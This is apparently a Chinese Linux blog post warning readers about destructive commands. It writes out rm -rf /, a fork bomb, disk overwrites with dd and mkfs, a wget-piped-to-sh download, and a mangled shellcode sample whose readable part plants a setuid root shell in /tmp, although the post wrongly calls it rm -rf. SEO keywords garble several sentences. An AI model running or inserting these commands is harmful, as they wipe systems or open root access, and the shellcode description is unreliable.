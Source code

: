 ```yaml
---



title: "rm-rf命令该命令可能导致不可恢复的系统崩坏"
description: "rm-rf命令该命令可能导致不可恢复的系统崩坏"
keywords: "rm-rf命令该命令可能导致不可恢复的系统崩坏"
date: "2023-06-18T16:22:52+08:00"
defaultContentLanguage: "zh"
author: "Linux"
twitterSite: ""
thumbnail: "https://www.linuxcool.com/wp-content/uploads/2023/01/1674482426427_1.png"
categories:
  - Linux
type: article
githubURL: "https://www.github.com/"
ShowToc: true
TocOpen: true



---
```


rm -rf 命令

该命令可能导致不可恢复的系统崩坏。

```
> rm -rf /  #强制删除根目录下所有东西。
> rm -rf *  #强制删除当前目录的所有文件。
> rm -rf .  #强制删除当前文件夹及其子文件夹。
```

执行rm -rf 一定要想半天,搞明白自己在干什么。

fork 炸弹

```
:) { :|:& };:
```

不太好理解可以转换成：

```
bomb()
{
    bomb|bomb&
};
bomb
```

一旦执行起来,-bash: fork: Cannot allocate memory **删除命令linux**，会把系统资源消耗殆尽。它会调用自己两次，一次在前台另一次运行在后台。它会反复地执行下去直到系统崩溃。

echo “” > /dev/sda

该操作会将在块设备中的所有数据块替换为命令写入的原始数据linux运维博客，从而导致整个块设备的数据丢失。

mv 文件夹 /dev/null

```
> mv /etc /dev/null
```

/dev/null 或 null 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。但是这个命令并不能阻止数据恢复软件——所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成。

下载的文件立即执行

```
> wget http://rumenz.com/rumenz.sh -O- | sh
```

如果rumenz.sh是一个病毒脚本,就完蛋了。下载脚本文件之前要看看里面的内容,有危险的操作就不要执行。

mkfs.ext3 /dev/sdb

这个命令会格式化块设备sdb，在执行这个命令后你的块设备(硬盘驱动器)会被格式化 **删除命令linux**，直接让你的系统达到不可恢复的阶段。

重定向输出到文件

```
>  > rumenz.txt
```

这个命令常用来清空文件内容或记录命令输出,执行之前请考虑清楚。

^foo^bar

这个命令用来编辑先前运行的命令而无需重打整个命令。

![linux删除文件夹命令_linux 删除文件夹 命令_删除命令linux](https://www.linuxcool.com/wp-content/uploads/2023/01/1674482426427_1.png)

用foobar命令时如果你没有彻底检查改变原始命令的风险linux软件，这可能导致真正的麻烦。

硬盘清零

```
> dd if=/dev/zero of=/dev/had
```

这个命令会将整个主硬盘清零。

执行伪装后的命令

```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */

= “xebx3ex5bx31xc0x50x54x5ax83xecx64x68″
“xffxffxffxffx68xdfxd0xdfxd9x68x8dx99″
“xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7″
“x56x04xf7x56x08xf7x56x0cx83xc4x74x56″
“x8dx73x08x56x53x54x59xb0x0bxcdx80x31″
“xc0x40xebxf9xe8xbdxffxffxffx2fx62x69″
“x6ex2fx73x68x00x2dx63x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

上面的命令就是rm -rf ，这里的代码是隐藏在十六进制里的，可能会擦除你的根分区，所以看不懂的命令千万不能执行,非要看效果,请在虚拟机中执行。